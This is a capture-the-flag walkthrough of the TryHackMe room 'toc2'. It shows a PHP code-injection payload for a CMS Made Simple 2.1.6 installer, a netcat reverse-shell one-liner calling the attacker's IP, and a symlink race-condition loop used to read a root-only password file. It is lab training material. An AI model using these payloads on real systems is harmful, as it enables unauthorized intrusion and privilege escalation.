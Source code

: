 ```yaml
---
title: "toc2 - TryHackMe"
date: 2022-03-15T10:45:50-03:00
---
```


https://tryhackme.com/room/toc2

## **User Flag**
First, we use nmap to see what ports are open.

![nmap-toc2](/toc2/nmap-toc2.png)

We notice that ports 22 and 80 are open. Since we hardly have something to explore on SSH, we start by accessing the website.

![site-toc2](/toc2/site-toc2.png)

Here we collect a username and password (*cmsmuser:devpass*) and maybe another possible username (*Hunter*).

One of the nmap scripts brought us an existing *robots.txt* entry, so let's check it out.

![robots-toc2](/toc2/robots-toc2.png)

Here we find the installation path for cmsms, which is the manager that should be installed in this application, and we also collect the name of the db to be used: *cmsmsdb*.

![cmsms-toc2](/toc2/cmsms-toc2.png)

By accessing the indicated directory, we can proceed with the installation of the system.
First of all, since we can check the version used, let's look for any known vulnerabilities in cmsms 2.1.6.

As soon as we search, we already get a Remote Code Execution exploit. Perfect!  
https://www.exploit-db.com/exploits/44192

![exploit-toc2](/toc2/exploit-toc2.png)

Following the exploit, we notice that it already starts to be exploited when installing the manager itself.

To perform the installation, we enter the data collected earlier. Before proceeding to the next step, we intercept this request and enter the payload *junk';echo%20system($_GET['cmd']);$junk='junk* in the UTC field.

![database-toc2](/toc2/database-toc2.png)

![burpsuite-toc2](/toc2/cmsms2-toc2.png)

Now we access the address *http://10.10.169.35/cmsms/config.php?cmd=id;uname* and notice that the command entered in the cmd parameter is executed on the victim host and returned to us.

![cmd-execution-toc2](/toc2/cmsms2-cmd-toc2.png)

Since we can run remote commands, we can try a reverse shell.

I used the payload *rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.117.185 3333 >/tmp/f* encoded to URL.

![first-access-toc2](/toc2/initial-access-toc2.png)

When I first got access to the machine I used python to get a stable shell, but this is not necessary since we got frank's password from the file *new_machine.txt* located in his home folder to make a ssh connection.

There we also get the user flag!

![user-txt-toc2](/toc2/user-txt-toc2.png)

## Root Flag

On frank's home we notice an interesting directory called *root_access*. Inside it we have a c file, an executable and a text file that only the root user is allowed to read.

When reading the c file to understand what the executable does, we realize that it is used to read files, but only files that the user running it has permission to read.

Probably our mission is to use *readcreads* to read the file *root_password_backup* and get root's password.

![readcreds-toc2](/toc2/readcreds-toc2.png)

I spent some time trying to figure out how to exploit this program until I took a look at the hint offered by the CTF. In the github located in the hint, we noticed that it is a *race condition vulnerability*.

Researching a bit, I came across [this link](https://samsclass.info/127/proj/E10.htm) that talks about exploiting programs that use the *access()* function and also have some *time interval* before the time of usage.

The article shows exactly how to exploit this vulnerability. We create a file to which we have read access. Then we create a symbolic link called flip pointing to this file. When trying to read the symbolic link we are able to use readcreds correctly.

I then point the flip to root_password_backup just for a test case. Trying to read "flip" with readcreds logically returns an error.

![root-flag1-toc2](/toc2/root-flag-toc2.png)

Now we will actually explore this race condition. First, we create a loop with this command:
*while true; do ln -sf root_password_backup flip; ln -sf public flip; done &*

This command will constantly change the symbolic link between the file we have access to and the file with the root password.

Then we run a loop to execute the program multiple times by reading the symbolic link with this command: *for i in {1...30}; do ./readcreds flip; done*

The trick here is that at some point the program will do a condition check with the permissions on the public file, and when it reads the "flip" file, the symbolic link will have already been changed and will be pointing to root_password_backup.

![root-flag2-toc2](/toc2/root2-flag-toc2.png)

If you want to understand more about this race condition vulnerability, you can watch [this video](https://www.youtube.com/watch?v=5g137gsB9Wk). 

See ya =).


